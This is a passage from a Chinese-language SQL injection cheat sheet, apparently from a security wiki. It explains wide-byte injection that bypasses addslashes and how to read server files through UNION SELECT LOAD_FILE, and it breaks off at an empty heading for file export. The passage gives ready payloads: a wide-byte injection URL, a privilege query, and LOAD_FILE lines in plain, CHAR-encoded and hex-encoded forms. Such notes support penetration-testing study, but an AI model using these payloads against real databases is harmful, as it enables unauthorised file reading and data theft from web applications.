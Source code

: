 在被addslashes后，出现%XX%5c，当前一个字符的ascii码值大于128时，会被认为是一个宽字符，即使它不是个汉字。所以不是仅仅%df可以吃掉'\'。

**利用\**

```text
index.php?name=%**%5c%5c%27
```

### 二次注入

### 文件读写

利用sql注入可以导入导出文件，获取文件内容，或向文件写入内容。 查询用户读写权限：

```text
SELECT file_priv FROM mysql.user WHERE user = 'username';
```

#### load\_file\(\)读取

**条件**

* 需要有读取文件的权限
* 需要知道文件的绝对物理路径。
* 要读取的文件大小必须小于 max\_allowed\_packet

```text
SELECT @@max_allowed_packet;
```

**payload**

直接使用绝对路径,注意对路径中斜杠的处理。

```text
UNION SELECT LOAD_FILE("C://TEST.txt") #

UNION SELECT LOAD_FILE("C:/TEST.txt") #

UNION SELECT LOAD_FILE("C:\\TEST.txt") #
```

使用编码

```text
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116)) #

UNION SELECT LOAD_FILE(0x433a5c5c544553542e747874) #
```

#### select导出

**条件**

* 一般要指定绝对路径
* 需导出的目录有可写权限
* 要outfile出的文件不能已经存在

**payload**
